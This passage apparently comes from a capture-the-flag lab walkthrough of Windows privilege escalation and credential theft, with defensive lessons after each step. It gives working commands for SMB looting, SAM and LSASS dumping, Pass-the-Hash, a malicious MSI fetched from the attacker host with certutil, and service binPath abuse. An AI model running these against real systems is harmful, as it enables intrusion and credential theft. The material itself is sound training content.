**Goal.** A `passwords.txt` in the world-readable Public share holds a real admin cred and a base64 token.
**Try.** Pull `passwords.txt` from Public and decode the `svc_token`. Save the Administrator credential; it unlocks Phases 4 and 5.

**Why we go after this.** A world-readable share is the single most productive place to sweep on an internal
network, because it is where convenience beats security: people drop credential lists, backup notes, and
"just for a minute" files into Public and never clean them up. An attacker pulls the obviously named files
(`passwords.txt`, `creds.txt`, `backup.txt`) first, because harvesting working credentials, not tokens, is
the real objective, and a file literally named `passwords.txt` on an anonymous share is exactly the low-effort,
high-value target that pays off constantly on real assessments. This box realistically has it because someone
made a "credential backup (rotate quarterly)" note and parked it somewhere everyone could reach, the sort of
shortcut that survives long after the person who made it moves on. We reason to this straight off the share
ladder: we just proved Public is anonymously readable, so we immediately mine it for functional loot. The
`Administrator:Password123!` it hands over is the master key that unlocks Phases 4 and 5, so grabbing it now
is what makes the rest of the escalation chain possible.

**Command:**

```bash
smbclient //192.168.148.101/Public -N -c 'get passwords.txt'
cat passwords.txt
```

**Expected output:**

```
getting file \passwords.txt of size 84 as passwords.txt
# credential backup (rotate quarterly!)
Administrator:Password123!
svc_token:RkxBR3t…
```

Decode the token:

```bash
d3coder "RkxBR3t…"          # FLAG{S******3}
```

**Command breakdown**
- Same `smbclient get` pattern, pulling `passwords.txt` instead of the README.
- The file hands you a real `Administrator:Password123!` credential and the base64 flag. Note the credential reuse: this is the password that gives you `Pwn3d!` everywhere. Save it; it unlocks Phases 4 and 5.

**Flag teaching.** A file literally called `passwords.txt` on a world-readable share is the everyday reality of internal pentests, so sweep the obviously named files (`passwords.txt`, `creds.txt`, `backup.txt`) on any anonymous share first.

**Reading the output.** `Administrator:Password123!` is the same password the web-app comment leaked back in Flag 24. Seeing it a second time is confirmation, not coincidence: this password is reused, and reuse is the thread you pull to unravel the box.

**The lesson.** Plaintext credential files on a readable share are catastrophic, and password reuse multiplies the damage: one leaked admin password unlocks the whole escalation chain and, later, other hosts. Never store credentials in a share, and as an attacker always save and reuse every credential you find.

**Flag 9 found:** `FLAG{S******3}`

---

## Phase 4: Credentials, SAM & hidden data

> **The thinking.** We have admin on the box but not yet SYSTEM, so this phase is about harvesting the
> credential material and hidden data that turns one foothold into many. It answers "what secrets does this
> host store that reach other accounts and other hosts," which is why we dump the SAM and hunt hidden streams
> and key files now, before attempting the SYSTEM-level escalations. It comes after initial access because
> most of these reads require the admin credential we just proved, and before Phase 5 because the hashes we
> pull here (and the reuse they enable) feed Pass-the-Hash. The key decision is to loot broadly, hashes, ADS,
> ssh keys, rather than tunnel-vision on a single path to SYSTEM.

**Goal.** Harvest credential material and hidden data that turns one foothold into many.
**Try.** Dump the SAM (`--sam` / `secretsdump`), hunt Alternate Data Streams (`Get-Content -Stream`), and read
the ssh key file. Loot broadly rather than tunnel-vision on one path.

**Why we do this.** We hold admin but not yet SYSTEM, so this phase harvests the credential material and hidden
data that turns one foothold into many. It answers "what secrets does this host store that reach other accounts
and other hosts," which is why we dump the SAM (hashes), hunt Alternate Data Streams, and read the ssh key file
before attempting the SYSTEM-level escalations. It comes after initial access because most of these reads need
the admin credential we just proved, and before Phase 5 because the hashes we pull here (and the reuse they
enable) are the raw material for Pass-the-Hash. The decision that matters is to loot broadly, hashes, ADS, ssh
keys, rather than tunnel-vision on a single path to SYSTEM.

Three independent looting moves this phase, each needing the admin credential you just proved:

```bash
nxc smb 192.168.148.101 -u Administrator -p Password123! --local-auth --sam
```

**Command breakdown**
- The hashes you pull here (and the reuse they enable) feed Pass-the-Hash in Phase 5.
- Flag 10 is the SAM backup note, Flag 11 is an NTFS Alternate Data Stream, Flag 18 is an ssh key comment. Loot all three; do not tunnel-vision on a single path to SYSTEM.

### FLAG 10: SAM backup (two-part: Identify Medium / Exploit Hard)

**Goal.** Spot that SAM/SYSTEM hive backups live in `C:\Backup` (Part 1), then actually extract the SAM and
recover the gated secret that only a real dump reaches (Part 2).

**Why we go after this.** The SAM (Security Account Manager) is the local database where Windows stores every
account, not passwords, but their NT hashes. A hash is a usable credential (NTLM authenticates with the hash
itself) and also feeds an offline cracker. A disaster-recovery routine that exports the SYSTEM and SAM hives
to a folder is ordinary, and those backups are as sensitive as the live database yet often left on disk. The
first thing a disciplined operator does with a foothold is sweep for credential material, this flag makes you
do the sweep, not just read a note about it.

#### Part 1: Identify the backup location (Medium)

**Step 1: the credential sweep that finds it: enumerate the disk for backup/DR folders.** You don't know
`C:\Backup` exists until you look, a post-foothold sweep for common loot dirs surfaces it:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "dir C:\ /b | findstr /i \"backup dr archive\" & dir /b C:\Backup"
```

**Expected output:**

```
Backup
README.txt          <-- a note in a backup folder is always worth reading
sam_backup_info.txt
```

**Step 2: read the note enumeration surfaced:**

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "type C:\Backup\README.txt"
```

**Expected output:**

```
SAM/SYSTEM hive backups are archived in this folder for DR.
identify token (base64): RkxBR3t…
```

(You also see `sam_backup_info.txt` sitting right there, but reading it as `overclock` returns `Access is
denied`; that is the gated Part-2 target below.)

**Part 1 found (identify):** `FLAG{…}`

#### Part 2: Extract the SAM -> recover the gated secret (Hard)

The recovered-secret token lives in `C:\Backup\sam_backup_info.txt`, **ACL-locked to SYSTEM +
Administrators**, low-priv `overclock` gets **Access Denied**. You reach it by actually dumping the SAM and
using the admin foothold that produces (dump -> crack/PtH), not by reading a note:

```bash
# dump the SAM/LSA/cached creds (needs the admin credential recovered earlier, or SYSTEM via Phase-5 escalation)
impacket-secretsdump Administrator:Password123!@192.168.148.101
# or: nxc smb 192.168.148.101 -u Administrator -p Password123! --local-auth --sam
# if impacket's SAM path errors (an `encLMHash` regression bites some builds), use mimikatz from a
# SYSTEM/admin shell:   mimikatz # token::elevate  ->  lsadump::sam
# or grab the hives offline and parse them locally (this IS what `-local` is for):
#   reg save hklm\sam sam.hiv & reg save hklm\system sys.hiv
#   impacket-secretsdump -sam sam.hiv -system sys.hiv LOCAL
# then read the gated recovered-secret token:
nxc smb 192.168.148.101 -u Administrator -p Password123! --local-auth -x "type C:\Backup\sam_backup_info.txt"
```

**Expected output:**

```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435...:<NThash>:::
Guest:501:aad3b435...:31d6cfe0...:::
...
Recovered secret (offline crack, base64): RkxBR3t…
```

```bash
d3coder "RkxBR3t…"          # Part-2 exploit token
```

**Command breakdown**
- `--sam` / `secretsdump` reads the SAM and dumps every account's NT hash; each line is `name:RID:LMhash:NThash:::`, the NT hash (after the empty-LM `aad3b435...`) is what you replay in Flag 4.
- `secretsdump` also pulls LSA secrets and cached creds in one pass, a SAM/hash backup on disk is as good as the live database.
- Proof it is gated: `type C:\Backup\sam_backup_info.txt` as `overclock` returns `Access is denied`; only the admin/SYSTEM foothold your dump earns can read it.

**The lesson.** Windows stores hashes, not passwords, and a hash is a credential in its own right, so any copy
of the SAM (live or a forgotten `C:\Backup` export) is a goldmine feeding both cracking and Pass-the-Hash.
Never leave registry or SAM backups on disk, and protect them like the live hives.

**Part 1 found (identify):** `FLAG{…}`  ·  **Part 2 found (exploit):** `FLAG{…}`

### FLAG 11: Alternate Data Stream (Hard)

**Goal.** `C:\Public\normal.txt` looks ordinary but NTFS lets it carry a hidden stream. Read it.
**Try.** List streams first (`Get-Item ... -Stream *` or `dir /r`), then read the extra `hidden` stream
(`Get-Content ... -Stream hidden`). Note: `type` cannot read a named stream. This one is plaintext.

**Why we go after this.** NTFS, the Windows file system, lets a single file carry more than one stream of
data: the visible contents live in the default `:$DATA` stream, but a file can also hold named Alternate Data
Streams (ADS) that never show up in Explorer, in `dir`, or in a normal `type`. The file's size and preview
look completely ordinary, which is exactly the point. Attackers and malware love ADS because it hides
payloads and secrets in plain sight (MITRE T1564.004), and defenders miss them because most tools only ever
read the default stream. This box realistically has it because someone tucked a token into a hidden stream on
a file named, pointedly, `normal.txt`, the whole lesson being that "normal" is a disguise. We reason to this
during the broad admin-level loot sweep: since ADS is a known hiding spot, we do not just read files, we list
their streams first, and any stream beyond `:$DATA` is a deliberate stash worth reading in full.

**Command:**

```powershell
Get-Item C:\Public\normal.txt -Stream *            # list the streams
Get-Content C:\Public\normal.txt -Stream hidden    # read the hidden one
```

**Expected output:**

```
FileName: C:\Public\normal.txt
Stream                   Length
------                   ------
:$DATA                       42
hidden                       21

FLAG{F******9}
```

**Command breakdown**
- `-Stream *` lists every alternate data stream on the file. The extra `hidden` stream next to the default `:$DATA` is the tell.
- `-Stream hidden` reads that specific stream's contents.
- cmd equivalent: `dir /r C:\Public\` shows streams, then `more < normal.txt:hidden`. Sysinternals `streams.exe` also reveals them. Defenders should treat unexpected streams as a red flag.

**Flag teaching.** ADS is a hiding spot that most file listings and many AV products miss, so use a stream-aware reader: `Get-Item -Stream *`, `dir /r`, or Sysinternals `streams.exe` all reveal the hidden stream that plain `type` and Explorer skip over.

**Reading the output.** The listing shows two streams: the default `:$DATA` and an extra one named `hidden`. That second entry is the entire tell; a file with an unexpected named stream is hiding something, and reading `-Stream hidden` pulls it out. Note that plain `type` cannot reach a named stream, which is why casual inspection misses it.

**The lesson.** A file's visible contents are not its whole contents on NTFS, and Alternate Data Streams are a classic way to hide payloads and secrets from tools that only read the default stream. Always list streams (`dir /r`, `Get-Item -Stream *`) when inspecting files, and as a defender treat any unexpected stream as suspicious.

**Flag 11 found:** `FLAG{F******9}`

### FLAG 18: ssh authorized_keys comment (Medium)

**Goal.** The Windows OpenSSH server stores admin keys on disk, and the key comment carries the flag.
**Try.** Read `C:\ProgramData\ssh\administrators_authorized_keys` and check the comment at the end of the key line. Plaintext.

**Why we go after this.** An `authorized_keys` file is how ssh does passwordless login: it lists the public
keys allowed to authenticate as a given account, and each key line ends in a free-text comment that by
convention names who owns the key (`user@host`). On Windows OpenSSH, administrator keys live in a single
machine-wide file, `C:\ProgramData\ssh\administrators_authorized_keys`. Attackers read these files for two
reasons: the comments are documentation an attacker gets to read (they name real accounts and hosts, tying
the ssh door back to a person), and the presence of a key hints at where the matching private key, a
full credential, might be stolen. This box realistically has it because whoever set up key-based ssh for the
admin left the default `overclock@vulnerable` comment on the key, ordinary configuration debris. We reason to
this from recon plus admin: ssh was open, we now hold administrator rights, so we read the server's own key
file directly and mine the comment for the account it maps to.

**Command:**

```bash
nxc smb 192.168.148.101 -u Administrator -p Password123! --local-auth \
  -x "type C:\ProgramData\ssh\administrators_authorized_keys"
```

**Expected output:**

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC7... overclock@vulnerable # FLAG{S******8}
```

**Command breakdown**
- `type <file>` prints the file. The Windows OpenSSH server stores admin keys in `C:\ProgramData\ssh\administrators_authorized_keys`.
- The flag rides in the key comment (everything after the key blob). `Get-Content`, `cat` over an ssh session, or reading the file from an SMB share all work. Key files are documentation an attacker gets to read.

**Flag teaching.** `type` over WinRM is only one way in: `Get-Content`, `cat` over an ssh session as the admin, or reading `administrators_authorized_keys` straight off an SMB share all expose the same comment field at the end of the key line.

**Reading the output.** The flag rides in the comment at the very end of the key line, after the long base64 key blob and the `overclock@vulnerable` label. That `user@host` label is itself intel: it names the account tied to the key.

**The lesson.** ssh key files are readable documentation that map accounts and hosts, and the comment field routinely leaks who owns each key. Protect `administrators_authorized_keys` like a credential store, and as an attacker mine key comments for the accounts they point back to.

**Flag 18 found:** `FLAG{S******8}`

---

## Phase 5: Privilege escalation to SYSTEM

> **The thinking.** Admin is not the finish line on Windows, SYSTEM is, and several flags here deliberately sit
> in the SYSTEM profile so the only way to read them is to actually escalate. This phase answers "can we cross
> from Administrator to SYSTEM," and it comes after looting because the hashes and misconfigurations we found
> are the raw material for these attacks. We work several independent routes (LSASS/LSA secrets, Pass-the-Hash,
> AlwaysInstallElevated, modifiable service DACL) on purpose, because in a real assessment you want more than one path
> to the top in case one is patched or monitored. The tradeoff is noise: these are the loudest techniques in
> the engagement, so on a real target you would pick the quietest working route rather than run them all.

**Goal.** Cross from Administrator to SYSTEM. Several flags sit in the SYSTEM profile, so only real escalation reads them.
**Try.** Four independent routes: LSASS/LSA secrets (`mimikatz`), Pass-the-Hash (`impacket-psexec -hashes`),
AlwaysInstallElevated (malicious MSI), and a modifiable service DACL. Redundancy matters in case one is patched.

**Why we do this.** Admin is not the finish line on Windows, SYSTEM is, and several flags here deliberately sit
in the SYSTEM profile so the only way to read them is to actually escalate. This phase answers "can we cross
from Administrator to SYSTEM," and it comes after looting because the hashes and misconfigurations we found are
the raw material for these attacks. We work four independent routes (LSASS/LSA secrets, Pass-the-Hash,
AlwaysInstallElevated, modifiable service DACL) on purpose, because in a real assessment you want more than one path to
the top in case one is patched or monitored. The tradeoff is noise: these are the loudest techniques in the
engagement, so on a real target you would pick the quietest working route rather than run them all.

> **Two-part flags.** Every escalation below is **two parts**: a Part-1 *identify* token (readable as low-priv
> `overclock`) that proves you spotted the misconfiguration, and a Part-2 *exploit* token written to a file
> that is **ACL-locked to SYSTEM + Administrators** (or that lives only in LSASS memory). As `overclock` you
> get **Access Denied** on Part 2 until you actually perform the technique and reach SYSTEM. Reading it with
> the `Administrator`/`localadmin` credential you recovered earlier "works," but it skips the lesson, so do it
> the honest way, from `overclock`.
>
> **Why `nxc` (NetExec), and enumerate before you read.** With a valid credential but no shell,
> `nxc smb <host> -u <user> -p <pass> --local-auth -x "<powershell>"` authenticates over SMB and runs a command
> remotely, no RDP, no session. You never open with the exact "read this value/file" one-liner: a real
> operator **enumerates first** (WinPEAS, `reg query`, `sc qc`, `dir`) to *discover* what is there, then reads
> the specific artifact. Each flag shows that discovery step and its output before the targeted read.

Four routes to the top, worked independently:

```bash
nxc smb 192.168.148.101 -u Administrator -p Password123! --local-auth --sam    # feeds the PtH route
```

**Command breakdown**
- Flag 3 is the live LSASS credential; Flag 4 is Pass-the-Hash; Flag 15 is AlwaysInstallElevated; Flag 16 is a modifiable service DACL -> SYSTEM, each with its own identify + exploit token.
- In a real assessment you want more than one path to SYSTEM in case one is patched or monitored. These are the loudest techniques in the engagement.

### FLAG 3: credentials in LSASS (two-part: Identify Medium / Exploit Hard)

**Goal.** Prove the box is configured to leak cleartext from memory (Part 1), then recover a credential that
lives *only* in LSASS (Part 2). There is no registry shortcut, the exploit token is not on disk.

**Why we go after this.** LSASS holds the credentials of every account currently authenticated. Normally those
are hashes, but with **WDigest** on and **LSA Protection (RunAsPPL)** off, Windows also keeps the *plaintext*
in memory. The prize here is the cleartext of the `svc_backup` service account, which runs as a resident
Windows service, so its cleartext sits in LSASS right now and exists nowhere on disk.

#### Part 1: Identify the misconfiguration (Medium)

**Step 1: confirm dumping LSASS will actually pay off** (WDigest on, LSA Protection off):

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential ; \
   reg query 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa' /v RunAsPPL"
```

**Expected output:**

```
    UseLogonCredential    REG_DWORD    0x1
ERROR: The system was unable to find the specified registry value: RunAsPPL   <-- LSA Protection OFF
```

**Step 2: enumerate the non-standard `HKLM\SOFTWARE\OCLab` key you hit during recon** (this surfaces the note
values for LSASS and PtH at once, you don't know their names in advance):

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "reg query HKLM\SOFTWARE\OCLab"
```

**Expected output:**

```
HKEY_LOCAL_MACHINE\SOFTWARE\OCLab
    WDigestNote    REG_SZ    RkxBR3t…
    PthNote        REG_SZ    RkxBR3t…
```

Now decode the one enumeration surfaced:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' \
  -X "(Get-ItemProperty 'HKLM:\SOFTWARE\OCLab').WDigestNote"
d3coder "RkxBR3t…"      # Part-1 identify token, confirms WDigest=1, RunAsPPL=0
```

**Part 1 found (identify):** `FLAG{…}`

#### Part 2: Recover the live credential (Hard)

The Part-2 flag **is** the recovered `svc_backup` cleartext, obtainable only by dumping memory:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

**Expected output (excerpt):**

```
Authentication Id : 0 ; 996 (00000000:000003e4)
        msv :
         [00000003] Primary
         * Username : svc_backup
         * Password : FLAG{…}          <-- the flag IS the recovered cleartext, straight out of LSASS
```

Remote / quieter equivalents: `lsassy -u Administrator -p Password123! 192.168.148.101`, or a `comsvcs.dll`
MiniDump parsed offline with `pypykatz`. `impacket-secretsdump` also pulls LSA secrets.

**Command breakdown**
- `privilege::debug` asks for `SeDebugPrivilege` so mimikatz can open LSASS; `sekurlsa::logonpasswords` reads credentials from memory, WDigest is what makes `svc_backup` appear as plaintext.
- Because the token exists only in RAM, a blind `findstr /s FLAG{ C:\*` never finds it, the flag *forces* the memory dump.

**The lesson.** WDigest plus no LSA protection means live logons, including service accounts, leave cleartext
in memory. Modern hardening disables WDigest and enables RunAsPPL / Credential Guard, which is why
dumping LSASS is high on every attacker's checklist.

**Part 1 found (identify):** `FLAG{…}`  ·  **Part 2 found (exploit):** `FLAG{…}` *(recovered `svc_backup` cleartext; per build)*

### FLAG 4: Pass-the-Hash (two-part: Identify Medium / Exploit Hard)

**Goal.** Confirm the box accepts hash-based auth (Part 1), then replay a hash into a SYSTEM shell and read a
SYSTEM-only flag (Part 2).

**Why we go after this.** The NTLM protocol authenticates you using the NT *hash*, not the plaintext, so a
hash you can read is an account you can become, without cracking. We dumped the SAM in Flag 10, so we already
hold the Administrator NT hash; replay beats cracking because the hash authenticates instantly, and the same
local-admin hash enables lateral movement to hosts that share it.

#### Part 1: Identify the PtH condition (Medium)

**Step 1: check the NTLM/PtH configuration** before spending a hash on a host that might reject it:

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "reg query 'HKLM\SYSTEM\CurrentControlSet\Control\Lsa' /v LmCompatibilityLevel ; \
   reg query 'HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' /v FilterAdministratorToken"
```

**Expected output:**

```
    LmCompatibilityLevel    REG_DWORD    0x0     <-- NTLM(v1) accepted; hash replay honored
ERROR: ... FilterAdministratorToken ...          <-- not set; local-admin token not filtered over the network
```

Green light: the host will honor a passed hash for the local Administrator.

**Step 2: read the identify note** (FLAG 3's `HKLM\SOFTWARE\OCLab` enumeration already surfaced `PthNote`):

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' \
  -X "(Get-ItemProperty 'HKLM:\SOFTWARE\OCLab').PthNote"
d3coder "RkxBR3t…"          # Part-1 identify token
```

**Part 1 found (identify):** `FLAG{…}`

#### Part 2: Replay the hash -> SYSTEM (Hard)

The reward lives in the SYSTEM profile at
`C:\Windows\System32\config\systemprofile\pth_success.txt`, **ACL-locked to SYSTEM + Administrators**, a
directory only SYSTEM reads, so a successful read is hard proof you crossed from Administrator to SYSTEM:

```bash
nxc smb 192.168.148.101 -u localadmin -p Administrator123 --local-auth --sam    # get the NT hash
impacket-psexec -hashes :<NThash> Administrator@192.168.148.101
# now in a SYSTEM shell:
type C:\Windows\System32\config\systemprofile\pth_success.txt
```

**Expected output:**

```
[*] Requesting shares on 192.168.148.101.....
[*] Found writable share ADMIN$
[*] Opening SVCManager on 192.168.148.101.....
[*] Creating service ... on 192.168.148.101.....
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> type C:\Windows\System32\config\systemprofile\pth_success.txt
FLAG{M******2}
```

**Command breakdown**
- `--sam` dump hashes; copy the Administrator NT hash (the field after the empty LM hash).
- `impacket-psexec -hashes :<NThash>` authenticate with the hash instead of a password. The leading colon means "no LM hash, NT hash only." This drops you into a SYSTEM shell.
- The flag file is under `systemprofile`, readable only by SYSTEM, which is why the attack is the proof. `nxc smb ... -u Administrator -H <NThash>` and `impacket-wmiexec -hashes` do the same replay. A hash is a credential; no cracking required.

**Flag teaching.** `impacket-psexec` is not the only way to spend the hash: `nxc smb ... -u Administrator -H <NThash>` authenticates with it directly and `impacket-wmiexec -hashes` gives you the same SYSTEM-level execution, so a filtered psexec never blocks the replay.

**Reading the output.** `whoami` returning `nt authority\system` is the confirmation you crossed the line, and the fact that you can then read the file under `systemprofile` (which Administrator alone could not) is the proof. If the read succeeds, you are SYSTEM.

**The lesson.** A hash is a credential, so stealing it is as good as stealing the password and no cracking is required. Local-admin hash reuse across machines is the number one lateral-movement vector in Windows networks, which is why unique local-admin passwords (LAPS) matter so much.

**Part 1 found (identify):** `FLAG{…}`  ·  **Part 2 found (exploit):** `FLAG{…}`

### FLAG 15: AlwaysInstallElevated (two-part: Identify Medium / Exploit Hard)

**Goal.** Confirm the policy is enabled (Part 1), then build and run a malicious MSI that reads a SYSTEM-only
flag (Part 2).

**Why we go after this.** AlwaysInstallElevated is a Group Policy setting meant to let standard users install
approved MSI software without an admin. Enabled in *both* the HKLM and HKCU hives, it makes *any* MSI install
with SYSTEM privileges, no matter who launches it, a convenience policy turned full privilege escalation, and
a second road to SYSTEM that never touches a hash.

#### Part 1: Identify the policy (Medium)

**Step 1: query both `AlwaysInstallElevated` hives; both must be `1` for the technique to work:**

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated ; \
   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated"
```

**Expected output:**

```
HKEY_LOCAL_MACHINE\...\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
HKEY_CURRENT_USER\...\Installer
    AlwaysInstallElevated    REG_DWORD    0x1     <-- both set: any MSI installs as SYSTEM
```

**Step 2: a hint file was left in the world-readable `C:\Public`; list it, then read it:**

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "dir /b C:\Public\*hint* ; type C:\Public\msi_hint.txt"
```

**Expected output:**

```
msi_hint.txt
AlwaysInstallElevated is enabled (HKLM + HKCU). Build a malicious MSI to escalate.
identify token (base64): RkxBR3t…
```


**Part 1 found (identify):** `FLAG{…}`

#### Part 2: Run a malicious MSI -> SYSTEM (Hard)

The reward is `C:\Windows\System32\config\systemprofile\msi_flag.txt`, **ACL-locked to SYSTEM +
Administrators**, low-priv `overclock` gets **Access Denied**. Let a SYSTEM-elevated MSI read it for you.

> **Run the MSI from an INTERACTIVE (RDP) session, not evil-winrm.** AlwaysInstallElevated only elevates an
> install launched by a **non-elevated (medium-integrity)** process. A WinRM/evil-winrm shell doesn't give you
> that, so **RDP in as `overclock`** (this server has RDP on) and run `msiexec` from a Command Prompt there.

**Step 1: build the malicious MSI (on Kali):**

```bash
msfvenom -p windows/x64/exec \
  CMD='cmd /c copy C:\Windows\System32\config\systemprofile\msi_flag.txt C:\Public\out.txt' \
  -f msi -o evil.msi
```

**Step 2: RDP in and install it as `overclock`:**

```bash
xfreerdp /v:192.168.148.101 /u:overclock /p:'Administrator2025!' /cert:ignore      # or mstsc.exe
```


In that RDP Command Prompt, confirm you are running at **medium integrity**, the whole reason AIE
fires here (a WinRM/network shell would be a filtered token that AIE ignores):

```cmd
whoami /user & whoami /groups | findstr /i "Mandatory"
```


Now stage `evil.msi` into `C:\Users\Public` (e.g. `certutil -urlcache -split -f http://<kali>:8000/evil.msi C:\Users\Public\evil.msi`) and install it:

```cmd
msiexec /quiet /qn /i C:\Users\Public\evil.msi
type C:\Public\out.txt
```

```bash
d3coder "RkxBR3t…"          # Part-2 exploit token
```


> **No graphical attacker host?** Use **RunasCs** from the evil-winrm shell to spawn `msiexec` in a genuine
> medium-integrity interactive logon (which is what triggers AIE):
> `RunasCs.exe overclock 'Administrator2025!' "msiexec /i C:\Users\Public\evil.msi /qn" --logon-type 2`
>
> **Or the easy button (Metasploit):** from a Meterpreter session on the box (same interactive/medium-integrity
> constraint), `exploit/windows/local/always_install_elevated` builds and runs the MSI for you —
> `set SESSION <id>; run` → a SYSTEM Meterpreter (`getuid` = `NT AUTHORITY\SYSTEM`).

**Command breakdown**
- `msfvenom -f msi` builds a Windows Installer package whose payload runs your command; the AIE policy makes the install run as SYSTEM, *provided the launching process is medium-integrity interactive*.
- WinPEAS and PowerUp (`Get-RegistryAlwaysInstallElevated`) detect the policy automatically (test `HKCU\...\Installer` as well as HKLM).
- Proof it is gated: `type ...\msi_flag.txt` as `overclock` returns `Access is denied` until the MSI runs it as SYSTEM.
- If `msiexec` returns **1625 "forbidden by system policy"**, the launching process was elevated/high-integrity (e.g. UAC off) or a `DisableMsi` policy is set, AIE needs a medium-integrity caller and MSI installs allowed.

**The lesson.** A single policy value can grant SYSTEM to every user on the machine, never enable
AlwaysInstallElevated, and audit for it with WinPEAS or PowerUp.

**Part 1 found (identify):** `FLAG{…}`  ·  **Part 2 found (exploit):** `FLAG{…}`

### FLAG 16: Modifiable service DACL -> SYSTEM (two-part: Identify Medium / Exploit Hard)

**Goal.** Spot a service whose object permissions let a normal user reconfigure it (Part 1), then rewrite its
binary path and restart it to run your command as SYSTEM and read a SYSTEM-only flag (Part 2).

**Why we go after this.** Windows services run as `LocalSystem` by default, but each service is a securable
object with its own DACL. Third-party apps (agents, updaters, monitoring tools) routinely register services
with loose permissions that grant ordinary users `SERVICE_CHANGE_CONFIG`. If a non-admin can change a
LocalSystem service's `binPath` and start/stop it, they can point it at any command and the SCM runs that
command as SYSTEM. Pattern to internalize: **a reconfigurable LocalSystem service equals code execution as
SYSTEM.** This is one of the most common privesc findings on real engagements, `accesschk` and PowerUp's
`Get-ModifiableService` flag it constantly.

#### Part 1: Identify the reconfigurable service (Medium)

**Step 1: enumerate services for a weak DACL.** The cleanest one-tool answer is `accesschk` (Sysinternals),
but you don't even need it: `sc sdshow` reads the security descriptor natively.

```bash
# with accesschk (student-supplied): list services overclock can modify
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "C:\Tools\accesschk.exe -uwcqv overclock * -accepteula"
# or native, no tool, dump one service's DACL:
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "sc.exe qc SiteHealthSvc ; sc.exe sdshow SiteHealthSvc"
```

**Expected output:**

```
RW SiteHealthSvc
        SERVICE_CHANGE_CONFIG          <-- accesschk: overclock can rewrite this service
...
BINARY_PATH_NAME   : C:\Windows\System32\cmd.exe /c exit
SERVICE_START_NAME : LocalSystem       <-- runs as SYSTEM
D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRRC;;;BU)
                                       ^-- BU (BUILTIN\Users) has DC = SERVICE_CHANGE_CONFIG, RP/WP = start/stop
```

Read the ACE for `BU`: `CCDCLCSWRPWPDTLOCRRC` includes `DC` (change config), `RP` (start), and `WP` (stop) , 
everything a non-admin needs to weaponize a LocalSystem service.

**Step 2: read the identify note** (`C:\Public\service_permissions.txt`, or the `ModSvcNote` OCLab value):

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "type C:\Public\service_permissions.txt ; (Get-ItemProperty 'HKLM:\SOFTWARE\OCLab').ModSvcNote"
d3coder "RkxBR3t…"          # Part-1 identify token
```

**Expected output:**

```
Service 'SiteHealthSvc' (Endpoint Health Monitor) has a weak DACL: BUILTIN\Users hold SERVICE_CHANGE_CONFIG + START/STOP.
identify token (base64): RkxBR3t…
```

**Part 1 found (identify):** `FLAG{…}`

#### Part 2: Reconfigure the service -> SYSTEM (Hard)

The reward is `C:\ProgramData\OCLab\modsvc_flag.txt`, **ACL-locked to SYSTEM + Administrators**, low-priv
`overclock` gets **Access Denied**. Because you hold `SERVICE_CHANGE_CONFIG`, repoint the service's `binPath`
at a command that copies the flag somewhere world-readable, then restart the service so the SCM runs it as
SYSTEM:

```bash
# 1) rewrite binPath to our payload (mind the required space after each "=")
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "sc.exe config SiteHealthSvc binPath= 'cmd /c type C:\ProgramData\OCLab\modsvc_flag.txt > C:\Public\f17.txt & icacls C:\Public\f17.txt /grant *S-1-1-0:F'"
# 2) restart it -> the SCM launches our command as LocalSystem
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X \
  "sc.exe stop SiteHealthSvc ; sc.exe start SiteHealthSvc"
# 3) read the copy our SYSTEM command dropped
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "type C:\Public\f17.txt"
```

> **Expected SCM error is normal.** `sc start` will return `1053 (the service did not respond in time)`
> because our payload isn't a real service, but the command **already ran as SYSTEM** before the SCM gave up.
> That's exactly the behavior PowerUp's `Invoke-ServiceAbuse` relies on. For a full interactive SYSTEM shell,
> point `binPath` at an `msfvenom`/`nc` reverse-shell payload instead of the file copy.

```bash
d3coder "RkxBR3t…"          # Part-2 exploit token
```

**Command breakdown**
- `accesschk -uwcqv <user> *` (or `sc sdshow`) surfaces the weak DACL; `sc qc` confirms the service runs as `LocalSystem`, together they make this exploitable.
- `sc.exe config <svc> binPath= "..."` needs `SERVICE_CHANGE_CONFIG`; `sc stop`/`sc start` need `SERVICE_STOP`/`SERVICE_START`. The weak ACE grants all three to `BUILTIN\Users`, so `overclock` qualifies.
- The reconfigured service starts your command in the SCM's SYSTEM context, no password, no admin group, no token theft.
- Proof it is gated: `type C:\ProgramData\OCLab\modsvc_flag.txt` as `overclock` returns `Access is denied` until your SYSTEM command copies it out.

**In a real engagement.** SYSTEM on a server is the whole game: from here you dump SAM/LSA secrets and DPAPI,
harvest cached domain creds, and pivot. Reconfigurable services are a favorite because they survive reboots
(persistence) and need no exploit code, just a misconfigured ACL.

**The lesson.** Audit service **object** permissions, not just the binaries on disk. Non-admins should never
